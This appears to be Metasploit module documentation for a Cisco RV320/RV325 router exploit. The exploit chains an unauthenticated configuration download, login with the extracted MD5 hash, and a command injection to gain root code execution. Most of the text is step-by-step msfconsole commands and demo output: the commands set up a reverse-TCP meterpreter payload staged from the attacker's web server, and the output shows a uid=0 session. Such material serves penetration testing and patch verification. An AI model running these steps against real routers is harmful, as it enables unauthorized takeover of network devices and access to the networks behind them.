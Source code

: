 ## Intro
This module automatically exploits two vulnerabilities to create an effectively
unauthenticated remote code execution on RV320 and RV325 routers.

The module will perform the following steps:

First the module will download the configuration. Then it will extract the MD5
password hash for the web interface user. The MD5 password hash is directly
accepted during login instead of the plain text password. With the MD5 hash the
module will authenticate to the web interface of the router and get a valid
authentication cookie. 

The second step is using the authentication cookie to
send an authenticated request to the web interface which exploits a command
injection vulnerability. The injection is limited to ~50 characters. Therefore,
the module uses a web server to stage a shell payload for the MIPS64
architecture of the router. Depending on the payload the module will result in
a shell or meterpreter session.

## Vulnerable Application:

Cisco Small Business Routers RV320 and RV325 with firmware versions between
1.4.2.15 and 14.2.20.

Link to vulnerable Firmware Version:
https://software.cisco.com/download/home/284005929/type/282465789/release/1.4.2.20?i=!pp


Links to Advisories:
Part 1 of the exploit (configuration download):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-002/-cisco-rv320-unauthenticated-configuration-export

Part 2 of the exploit (command injection in web interface):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-004/-cisco-rv320-command-injection

Advisories by vendor:
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-inject

## Options

**RHOSTS**
Configure the remote vulnerable system.

**RPORT**
Configure the TCP port of the HTTP/HTTPS management web interface.

**USE_SSL**
This flag controls whether the remote management web interface is accessible
via HTTPS or not. Should be false for HTTP and true for HTTPS.

**PAYLOAD**
Configure the Metasploit payload that you want to stage. Must be for MIPS64
arch.  Set payload Options accordingly.

**SRVHOST**
The module stages the payload via a web server. This is the binding interface
IP. Default can be set to 0.0.0.0. 

**HTTPDelay**
This configures how long the module should wait for the incoming HTTP
connection to the HTTP stager.

## Verification Steps:

1. Have exploitable RV320 or RV325 router (exampe IP: 192.168.1.1):
2. Start `msfconsole`:
3. Do:  ```use exploit/linux/http/cisco_rv32x_rce```
4. Do: ```set RHOSTS 192.168.1.1```
5. Do: ```set payload linux/mips64/meterpreter_reverse_tcp``` (Set the MIPS64 payload you want to use)
6. Do: ```set LHOST 192.168.1.2``` (Setting your own IP here, example: 192.168.1.2)
7. Do: ```set RPORT 8007``` (Set the remote Port on which the router web interface is accessible)
8. Do: ```run```
9. Gives you a privileged (uid=0) shell or in the example a meterpreter session.


## Scenario

Exploiting a vulnerable RV320 router with publicly accessible HTTPS web
interface on TCP port 443: 
```
msf5 exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
msf5 exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
msf5 exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
msf5 exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
msf5 exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
msf5 exploit(linux/http/cisco_rv32x_rce) > run
```

Demo example output for the module:
```
msf5 > use exploit/linux/http/cisco_rv32x_rce 
msf5 exploit(linux/http/cisco_rv32x_rce) > show options

Module options (exploit/linux/http/cisco_rv32x_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  15               yes       Time that the HTTP Server will wait for the payload request
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      8007             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   URIPATH    /                yes       The path for the stager. Keep set to default! (We are limited to 50 chars for the initial command.)
   USE_SSL    false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   LINUX MIPS64

msf5 exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
payload => linux/mips64/meterpreter_reverse_tcp
msf5 exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
msf5 exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
RPORT => 443
msf5 exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
USE_SSL => true
msf5 exploit(linux/http/cisco_rv32x_rce) > run

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.1.2:8080/
[*] Server started.
[*] Downloading configuration from 192.168.1.1:443
[*] Using SSL connection to router.
[*] Successfully downloaded config
[*] Got MD5-Hash: dfead10390e560aea745ccba53e044ed
[*] Loging in as user cisco using password hash.
[*] Using default auth_key 1964300002
[*] Successfully logged in as user cisco.
[*] Got cookies: mlap=RGVmYXVsdDE6Ojo6Y2lzY28=;
[*] Sending payload. Staging via http://192.168.1.2:8080/.
[*] 192.168.1.1:443 - Payload request received: /
[*] Waiting for stager connection timed out. Try increasing the delay.
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:48580) at 2019-03-14 10:00:00 +0100
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=99, euid=0, egid=99
```
